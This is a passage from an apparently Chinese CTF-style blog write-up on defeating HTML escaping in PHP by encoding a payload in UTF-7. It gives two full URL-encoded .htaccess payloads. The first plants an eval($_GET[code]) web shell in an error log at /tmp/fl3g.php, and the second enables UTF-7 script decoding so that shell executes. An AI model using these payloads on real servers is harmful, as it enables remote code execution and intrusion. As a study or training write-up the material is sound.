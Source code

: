 其编码实际上可以看作是另外一种形式的base64编码，这就意味着对于一个标准的UTF-8编码后字符串，如"+ADs-"在去掉首尾的+和-后可以通过直接的base64解码得到对应字符(虽然由于编码原理会出现多余字符串)，但注意反向处理并不会得到UTF-7的编码的。

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711101255983-1296324411.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711101255983-1296324411.png)

 

 

对于UTF-7编码来说，一个标准得UTF-7编码后字符串应该由+开头由-结尾，实际用于PHP解码时保留开头得+即可保证一个UTF-7编码后字符串被识别，但这部分不知道为何没有在中文wiki中说明，在英文wiki中却能找到相关描述：[UTF-7 - Wikipedia](https://en.wikipedia.org/wiki/UTF-7)。

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711101852834-1510070619.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711101852834-1510070619.png)

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711094408184-1789180874.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711094408184-1789180874.png)

对于UTF-7编码来说，最方便得编码和解码方式还是利用PHP自带得函数来处理(mb_convert_encoding需要PHP将mbstring库打开后才能使用，否则会提示函数未定义)。

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711103336252-779971625.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711103336252-779971625.png)

 

 

回到符号"<"和">"会被HTML转义的问题上来，我们可以使用其UTF-7编码的格式，同时开启PHP对UTF-7编码的解码，这样就能绕过了。

所以经过UTF-7编码后我们的payload如下所示。

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711133627005-96004381.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711133627005-96004381.png)

需要注意的是__halt_compiler函数用来终端编译器的执行，如果我们不带上这个函数的话包含我们的日志文件会导致500甚至崩掉(但本地复现却不会有点搞不懂)。

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711132353976-649361991.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711132353976-649361991.png)

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711132605225-595083760.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711132605225-595083760.png)

而URL编码处理后payload则是：

```
?filename=.htaccess&content=php_value include_path "/tmp/%2bADw-%3fphp eval($_GET[code]);__halt_compiler();"%0d%0aphp_value error_reporting 32767%0d%0aphp_value error_log /tmp/fl3g.php%0d%0a%23\
```

接着我们再访问一次触发include包含的错误路径并记录在日志中，然后我们就需要再写入一个新的.htaccess文件设置让日志中我们的UTF-7编码能够被解码，从而我们PHP代码才能被解析。

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711105345787-1359566987.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711105345787-1359566987.png)

 

zend.multibyte决定是否开启编码的检测和解析，zend.script_encoding决定采用什么编码，所以我们需要写入的第二个.htaccess文件如下。

[![img](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711141314424-155101893.png)](https://img2020.cnblogs.com/blog/2293037/202107/2293037-20210711141314424-155101893.png)

 

 URL编码后的payload：php_value include_path "/tmp"%0d%0aphp_value zend.multibyte 1%0d%0aphp_value zend.script_encoding "UTF-7"%0d%0a%23\
